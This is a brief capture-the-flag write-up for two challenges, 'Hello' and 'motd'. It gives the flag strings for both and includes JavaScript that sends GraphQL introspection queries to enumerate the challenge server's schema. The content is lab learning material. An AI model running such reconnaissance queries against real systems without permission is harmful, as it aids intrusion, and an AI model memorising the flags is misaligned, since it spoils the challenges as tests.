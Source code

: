 ## Hello
Follow directions, http://dctf21.larry.science:5003/hello.py <br>
`ctf{organize_your_folders_d650b010}`

## motd
Used https://jaimelightfoot.com/blog/hack-in-paris-2019-ctf-meet-your-doctor-graphql-challenge/
```
fetch('/graphql', {
    headers: {
        'Content-Type': 'application/json'
    },
    method: 'POST',
    body: JSON.stringify({
        query: '{__schema { types { name } } }'
    })
})
.then(res => res.json())
.then(({ data }) => {
    console.log(data);
})

fetch('/graphql', {
    headers: {
        'Content-Type': 'application/json'
    },
    method: 'POST',
    body: JSON.stringify({
        query: '{ __type(name: "ctf") { name fields { name type { name kind}}}}'
    })
})
.then(res => res.json())
.then(({ data }) => {
    console.log(data)
    document.getElementById('motd').innerText = data['motd'];
})
```
`ctf{graphql_makes_rec0n_easy_c237d2a3}`